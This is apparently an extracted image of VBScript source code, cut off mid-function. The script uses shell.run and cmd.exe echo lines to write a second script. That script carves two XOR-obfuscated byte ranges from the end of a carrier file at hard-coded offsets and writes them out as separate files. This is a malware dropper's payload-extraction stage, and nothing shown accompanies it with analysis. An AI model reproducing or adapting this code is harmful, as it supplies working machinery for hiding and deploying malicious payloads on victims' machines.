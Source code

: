   shell.run "cmd.exe /c ""echo dim L1                                                                       >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim L2                                                                       >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim Len                                                                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim infile                                                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim outfile1                                                                 >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim outfile2                                                                 >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo infile = """&v&"""                                                             >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo outfile1 = """&outfile1&"""                                                           >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo outfile2 = """&dn&"""                                                           >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo L1=     78924                                                                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo L2=     38912                                                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo size=    144893                                                                 >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo offset1 = size-L1-L2                                                         >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo offset2 = size-L2                                                            >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo Len=0                                                                        >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo str = ReadBinary (infile,L1,offset1)                                         >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo WriteBinary outfile1, str                                                    >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo str = ReadBinary (infile,L2,offset2)                                         >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo WriteBinary outfile2, str                                                    >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo Function ReadBinary(FileName,length,offset)                                  >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   Dim Buf(), I                                                               >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   With CreateObject(""ADODB.Stream"")                                        >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     .Mode = 3: .Type = 1: .Open: .LoadFromFile FileName : .Position = offset >> """&bs&"""  "" ",0,true 
  shell.run "cmd.exe /c ""echo     Len =length -1                                                           >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     ReDim Buf(Len)                                                           >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     For I = 0 To Len: if(I=0)  then Buf(I)=(AscB(.Read(1))) else if ((I mod 2)=0) then Buf(I)=(AscB(.Read(1)) xor AscB(chr(65))) else Buf(I)=(AscB(.Read(1)) xor AscB(chr(67))) end if        >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     Next                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     .Close                                                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   End With                                                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   ReadBinary = Buf                                                           >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo End Function                                                                 >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo Sub WriteBinary(FileName, Buf)                                               >> """&bs&"""  "" ",0,true